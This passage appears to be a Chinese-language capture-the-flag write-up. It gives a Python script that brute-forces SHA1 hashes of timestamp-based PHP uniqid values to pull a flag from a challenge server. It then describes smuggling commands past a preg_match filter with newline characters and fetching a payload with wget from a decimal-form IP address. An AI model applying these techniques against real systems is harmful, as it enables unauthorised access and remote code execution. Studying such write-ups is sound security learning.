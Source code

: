 ``` php
    $_SESSION["username"] = $result["username"];
    $_SESSION["userclass"] = $result["class"];
```
最後我破防了，去看出題者的說明，發現要利用 uniuid 直接拿時間戳產生的特性，推出當初用來算 hash 的 uid，學到了...，因為從上一步的繞過，我得到了 flag 的提交時間，可以寫 exploit 了。
exploit 基本上就是參考 php source uniuid 的寫法，其他比較花時間的部分，大概就是想辦法把日期時間轉換成 unixtimestamp 並且 parse 成對應格式，以及一些 POC 的基本驗證了 (我一開始還 parse 錯)
``` python
import http.client
import hashlib
# target url
url = 'rectf.hitcon2023.online'
# The flag submission time
sec = 1692158975
usec = 584096

for  i in range(300,1,-1):
    flag_submit_id = f"flagholder_{sec:x}{usec-i:x}"

    hash = hashlib.sha1(flag_submit_id.encode()).hexdigest()
    print(f"Testing {flag_submit_id}")

    conn = http.client.HTTPConnection(url, 30203)
    # conn = http.client.HTTPConnection(url, 8210)
    conn.request('GET',f'/submission.php?hash={hash}')
    r2 = conn.getresponse()
    data2 = r2.read()
    if(data2 != b'Submission not found.'):
        print(f'Successfully get flag with {hash}')
        print()
        print(data2)
        break
    conn.close()
```
Reference:
- https://stoneapp.tech/cavern/post.php?pid=948

### babyfirst
<script src="https://gist.github.com/orangetw/cb3487e47d7aaaea4692.js"></script>
(應該沒人認真看這篇，我偷偷 host orange 的 gist 應該不會有人發現吧？)

找資料發現 `preg_match` 有個 `\n` 的 mismatch 洞之後，測了一兩個小時，
確定只能這樣串 `$args = ['AAA\n','mycmd','my parameter\n','mycmd']`，沒其他特殊字元可以繞過了。

串指令的路線
1. 寫入 base64 檔案 + decode base64 檔案 + 執行檔案
   - 如何寫入？狗到的方式都是 `echo xxx > file`，有 `>`
   - `base64 -decode` 有 `-`
2. 下載檔案 + 執行檔案
   - 如何下載？首先 ip `xxx.xxx.xxx.xxx` 就有 `.`

感覺都不行，我低下的想像力不知道怎麼辦了。偷偷看了一下 orange 的 writeup，確定 wget 可以。於是我又想了一個小時，靈機一動 ip 有 decimal 形式，`wget 2130706433(127.0.0.1)`成功下載檔案。
但 `wget` 抓下來的檔名是 `index.html`，就算 302 轉向到別的網頁一樣，又再卡住一次。
爬文幾乎每篇講 linux 下載檔案的，都是用 curl、wget。而 curl 也是會用到特殊符號。mv 也要輸入檔案名 `index.html`
